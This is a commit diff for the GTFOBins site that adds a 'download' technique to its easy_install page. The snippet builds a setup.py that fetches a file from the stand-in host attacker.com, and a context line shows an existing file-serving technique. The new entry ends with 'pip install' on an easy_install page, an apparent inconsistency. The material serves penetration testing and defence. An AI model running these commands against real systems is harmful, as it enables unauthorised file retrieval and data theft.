

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/easy_install.md, in a window 1280 px wide and 900 px high, scrolled down 956 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add download to easy_install

```diff
--- a/_gtfobins/easy_install.md
+++ b/_gtfobins/easy_install.md
@@ -36,6 +36,18 @@ functions:
         else: import SimpleHTTPServer as s, SocketServer as ss
         ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
         easy_install $TF
+  download:
+    - description: Fetch a remote file via HTTP GET request. It needs an absolute local file path.
+      code: |
+        export URL=http://attacker.com/file_to_get
+        export LFILE=/tmp/file_to_save
+        TF=$(mktemp -d)
+        echo "import os;
+        os.execl('$(whereis python)', '$(whereis python)', '-c', \"\"\"import sys;
+        if sys.version_info.major == 3: import urllib.request as r
+        else: import urllib as r
+        r.urlretrieve('$URL', '$LFILE')\"\"\")" > $TF/setup.py
+        pip install $TF
   file-write:
     - description: It needs an absolute local file path.
       code: |
```
